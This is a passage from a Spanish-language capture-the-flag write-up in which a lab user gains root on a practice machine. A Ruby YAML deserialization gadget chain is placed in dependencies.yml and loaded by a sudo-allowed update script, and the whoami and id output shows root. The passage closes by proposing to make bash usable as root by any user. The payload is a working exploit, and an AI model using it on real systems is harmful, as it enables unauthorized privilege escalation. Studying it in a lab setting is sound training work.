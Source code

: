 Hagamos una prueba con tal de ver como funciona, vamos por pasos:

* Creamos el archivo **dependencies.yml**, OJO, esto solo podremos hacer en la carpeta **henry**:
```bash
henry@precious:/home$ pwd
/home/henry
henry@precious:~$ nano dependencies.yml
```

* Dentro del archivo ponemos el script de arriba y cambiamos el **git_set** por un **whoami** para ver si nos suelta algo:

```bash
  !ruby/object:Gem::Installer
     i: x
  !ruby/object:Gem::SpecFetcher
     i: y
  !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve
```

* Ejecutamos el script con **permisos SUDO** y veamos que pasa:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
...
```
Vaya, vaya, vemos que ahí dice **Root**.

* Hagamos otra prueba, ahora en vez de usar **whoami** pongamos **id**:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
...
```
Excelente, con esto podemos escalar privilegios, solo demos permisos de ejecución para la **Bash** a cualquier usuario, esto para ser **Root**.

